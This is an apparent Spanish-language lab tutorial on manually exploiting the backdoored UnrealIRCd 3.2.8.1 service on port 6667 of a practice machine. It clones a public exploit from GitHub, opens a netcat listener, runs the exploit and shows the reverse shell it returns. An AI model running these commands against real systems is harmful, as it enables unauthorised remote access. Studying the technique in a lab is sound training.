 # Explotacion manual de vulnerabilidades Host

Lo que vamos hacer aqui es explotar vulnerabilidades de forma manual, sin utilizar herramientas automatizadas como por ejemplo `metasploit` si no que vamos a investigar herramientas que puedan explotar estas vulnerabilidades de forma manual.

Vamos a empezar mirando el reporte que obtuvimos de `nmap` anteriormente y en concreto vamos a intentar explotar la vulnerabilidad que nos marca del puerto `6667` que se utiliza para comunicarse con otras personas como si fuera un `chat` pero en este caso esta `troyanizada` y para obtener mas informacion nos muestra el link.

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

URL = [Pagina de referencia](http://seclists.org/fulldisclosure/2010/Jun/277)

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos nos explica que esa version de aplicacion, contiene una `backdoor` (Puerta trasera) por lo que podemos aprovechar eso para obtener acceso a la maquina.

Si investigamos mas sobre esa vulnerabilidad `UnrealIRCd 3.2.8.1`, buscando un exploit del mismo, podremos encontrar un repositorio en `GitHub` sobre esto.

URL = [Exploit UnrealIRCd 3.2.8.1 GitHub](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor)

Nos descargaremos el repositorio de la siguiente forma:

```shell
git clone https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor.git
cd UnrealIRCd-3.2.8.1-Backdoor/
```

Si investigamos mas a fondo como funciona el codigo por dentro, haciendo lo siguiente:

```shell
nano exploit.py
```

Podremos ver el codigo por dentro, vemos que nos va a pedir una serie de parametros para poder utilziarlos en el exploit, tambien vemos que realiza una consexion utilizando una serie de sockets con lo que le hayamos indicado para que asi pueda crear ese `backdoor`.

> ¿Que es un `exploit`?

Un `exploit` normalmente es una porcion de codigo fuente que puede estar escrita en practicamente cualquier lenguaje de programacion (`Python, C++, etc...`), lo que va hacer es tratar de aprovechar una vulnerabilidad y ofrecernos un beneficio (Conexion reversa a dicha maquina, dumpeo de informacion de credenciales, escalada de privilegios, etc...).

> ¿Que es un `payload`?

El `payload` es concretamente lo que se va a ejecutar el codigo que nosotros vamos a injectar una vez que ya hemos aprovechado ese fallo de seguridad para realizar la accion que nos interese.

Antes de ejecutarlo tendremos que poner nuestra IP y el puerto que queramos dentro del exploit:

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Una vez echo esto lo guardamos y ahora si lo iriamos a ejecutar.

Por lo que podremos ejeuctar el exploit de la siguiente forma:

Primero estaremos a la escucha desde el puerto que le hayamos indicado antes en el script del exploit.

```shell
nc -lvnp <PORT>
```

Despues estando a la escucha, ejecutaremos el `exploit` para que nos de la shell a la escucha en la que estamos.

```shell
sudo chmod 777 exploit.py
./exploit.py 192.168.16.133 6667 -payload python
```

Info:

```
Exploit sent successfully!
```

Y en la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.16.128] from (UNKNOWN) [192.168.16.133] 35988
boba_fett@ubuntu:/opt/unrealircd/Unreal3.2$ whoami
whoami
boba_fett
boba_fett@ubuntu:/opt/unrealircd/Unreal3.2$ 
```

Por lo que vemos funciono todo correctamente y ya habremos obtenido una shell con la maquina victima `Linux`.

